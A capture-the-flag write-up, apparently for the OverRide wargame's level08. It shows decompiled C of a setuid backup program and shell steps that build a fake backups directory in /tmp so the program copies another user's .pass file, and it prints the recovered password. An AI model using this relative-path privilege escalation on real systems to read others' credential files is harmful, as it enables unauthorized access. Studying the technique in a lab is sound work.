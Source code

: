 # Solution

Here is the decompile c code of the binary:

```c
void    log_wrapper(FILE *logfile, const char *prefix, const char *msg)
{
    char    buffer[264];

    strcpy(buffer, prefix);
    snprintf(&buffer[strlen(buffer)], 254 - strlen(buffer), msg);
    buffer[strcspn(buffer, "\n")] = 0;
    fprintf(logfile, "LOG: %s\n", buffer);
}

int main(int argc, const char **argv, const char **envp)
{
  FILE *logfile; 
  FILE *stream; 
  int fd;
  char buf;
  char dest[104];

  buf = -1;
  if ( argc != 2 )
    printf("Usage: %s filename\n", *argv);
  logfile = fopen("./backups/.log", "w");
  if ( !logfile )
  {
    printf("ERROR: Failed to open %s\n", "./backups/.log");
    exit(1);
  }
  log_wrapper(logfile, "Starting back up: ", argv[1]);
  stream = fopen(argv[1], "r");
  if ( !stream )
  {
    printf("ERROR: Failed to open %s\n", argv[1]);
    exit(1);
  }
  strcpy(dest, "./backups/");
  strncat(dest, argv[1], 99 - strlen(dest));
  fd = open(dest, O_WRONLY | O_CREAT | O_EXCL, S_IRUSR | S_IWUSR | S_IRGRP | S_IWGRP);
  if ( fd < 0 )
  {
    printf("ERROR: Failed to open %s%s\n", "./backups/", argv[1]);
    exit(1);
  }
  while ( 1 )
  {
    buf = fgetc(stream);
    if ( buf == -1 )
      break;
    write(fd, &buf, 1uLL);
  }
  log_wrapper(logfile, "Finished back up ", argv[1]);
  fclose(stream);
  close(fd);
  return 0;
}
```

So the program do a backup that will be stored inside the `./backups/` folder, the point of the exploit will be to make him write the flag for us inside that folder.

This is one is pretty simple we need to abuse the `./backups/.log` call in the main function because we cannot create a directory inside the home folder,
we need to create a new one inside the `/tmp` folder allowing us to control the backup folder, which from that will help us to leverage the possibility of getting the the .pass backup.

This is possible because path are relative not absoulute, also obviously the program is setuid and setguid.

```sh
level08@OverRide:~$ cd /tmp/
level08@OverRide:/tmp$ mkdir -p backups/
level08@OverRide:/tmp$ echo 'toto' > test
level08@OverRide:/tmp$ ~/level08 test
level08@OverRide:/tmp$ ls -laR backups/
backups/:
total 8
drwxrwxr-x 2 level08 level08 80 Oct  9 17:18 .
drwxrwxrwt 3 root    root    80 Oct  9 17:18 ..
-rw-rw-r-- 1 level09 users   55 Oct  9 17:18 .log
-rw-rw---- 1 level09 users    5 Oct  9 17:18 test
level08@OverRide:/tmp$ cat backups/test 
toto
```

So it works we have control of the backups file now lets try to open the .pass file

```sh
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

We received this error which is because we need the same structure of the /home inside the backup folder so let's create it.

```sh
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
```

No error this time let's check if we have the .pass file store inside the backups folder.

```sh
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

Yes it worked we have the flag and can procced to the next one.
